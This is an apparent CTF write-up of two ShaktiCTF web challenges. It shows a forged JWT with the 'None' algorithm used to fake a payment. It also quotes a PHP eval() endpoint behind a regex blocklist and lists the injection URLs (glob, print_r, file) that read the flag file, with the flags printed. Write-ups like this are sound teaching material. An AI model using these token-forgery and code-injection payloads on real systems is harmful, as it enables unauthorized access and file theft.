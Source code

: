 ## web/spiderman
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/a6a4c660-0adb-4631-89df-c10807010354)
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/fc060cb6-a19e-487f-850b-78d122640d3c)
- on cliking buying product with id 1 of cost 1000
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/1548a2c6-1689-45f4-90b9-ab2135c8bd40)
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/1d8b7a35-9868-47e9-afb9-41ff3476dba1)

- we get a coolkie and on deconding
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/b80f4fd2-d8d2-4719-aa2b-61d115203e60)
- this is the checkout
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/17652ee6-2df8-4e22-a061-dc124c68648a)
- it is a get request with money
- on seding that get request we get payment successful
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/7c79ddde-0966-46b1-8f96-74b174432ab2)
- we change the sign to chekc
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/5bc17472-3e27-4328-95c2-1c410acd433e)
- so signature is verifed
- our balance is not changing after buying things
## even thoug the header and payload are same in both (buing,checkout) the signature is different(as of different secretes used maybe)
### try none on chekout
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/2b662a06-7239-4d0c-acf9-c4f3556d1ba5)
- eyJhbGciOiAiTm9uZSIsICJ0eXAiOiAiSldUIn0K.eyJhbW91bnQiOiA1MDAwfQo
- on complely removing the sign part we get a err
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/c7467c9a-c278-42cd-b7e2-389826673121)
- so we place a random char as sign
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/ce1ed63c-b684-4fe6-9232-fe6c067a7fa6)
- shaktictf{Y0u_4re_th3_ult1mat3_f4n}
# web/filters
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/2cb909ac-241e-48f5-ade7-944397e6df75)
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/a5e9c236-0d4d-4dbf-95f7-b1fda53e4624)
### try to read files
- use os.system ..to read the file like using readfile() ---can t use as of s
- file_Get_contnets() ---can't use as of c
- fgets()--need to open file with fopen()

## bypass try with pcre limit
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/df0c8561-9a83-4ae7-b423-40d9ae6b3d8d)
https://stackoverflow.com/questions/17926195/php-preg-match-length-3276-limit
```

function filter($command) {
    if(preg_match('/(`|\.|\$|\/|a|c|s|require|include)/i', $command)) {
        return false;
    }
    return true;
}

if(filter($command)) {
    eval($command);
    echo "Command executed";
} else {
    echo "Restricted characters have been used";
}
```
- so here if our command is longer than this then pregmatch will return false
- as a reult if conditon willl not go through so filter will reurn true
- so we check by gibing 3276*innocent chars+1 evil char
- pcre recursion limit some say 10 million
- so write a python script
### says url tool long 
## bypass try with new line char
https://ramadistra.dev/fbctf-2019-rceservice
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp
but that is not working having %0A 
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/d70bd095-33b3-4d17-bf88-dce49048e610)
- a help ful resoruce https://simones-organization-4.gitbook.io/hackbook-of-a-hacker/ctf-writeups/intigriti-challenges/1223

- as the regex is not evil/can't stuck in a loop ,there is no way of pcre recurison limit use and we bypassing the filter

### finding some useful commands
- from this https://ramadistra.dev/fbctf-2019-rceservice
- we see some useful commands (as ther are blockd)..
- so we say while(false),it is executed
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/f77b6dab-1a84-44f5-a23f-4719c2d0b80c)
### try highlight_file
- https://ctftime.org/writeup/16595
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/820dca9c-d42d-4a1a-8982-60ac7ad05dda)
- https://ctf-wiki.mahaloz.re/web/php/php/
### try exploit
- use fopen and _()
### try opendir()
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/409f80a0-b829-4f48-a06b-7736375c868e)
### try readtext(listdir)
fopen(listdir())
- so we did executied glob('fl')
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/2a4d7d89-9430-48e4-9025-c95602a47e01)
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/ff996fb4-ed4a-4f1f-adf6-c7030297da19)
- it returns list of files
```
https://ch2474161007.ch.eng.run/?command=fopen(glob(%27fl%27)[0],%27r%27);
```
# print_r to get the output on the screne
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/a2b5d6c7-24bc-4af8-a731-96f944d9a703)
```
https://ch2474161007.ch.eng.run/?command=print_r(glob(%27*fl*%27));
```
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/b52145e5-c403-4b00-89b1-b3896976fc92)
```
https://ch2474161007.ch.eng.run/?command=print_r(glob(%27*fl*%27)[0]);
```
with this we do get the file name flag.txt
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/5371dd6d-b892-4b70-aa48-459a310a2eaa)


# at last
https://www.w3schools.com/php/func_filesystem_file.asp
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/f6983a82-4080-492e-a684-d7935688e5b6)
```
https://ch2474161007.ch.eng.run/?command=print_r(file(glob(%27*fl*%27)[0]));
Array ( [0] => shaktictf{y0u_byp4553d_7h3_f1l73r5_y4y} ) Command executed 
```




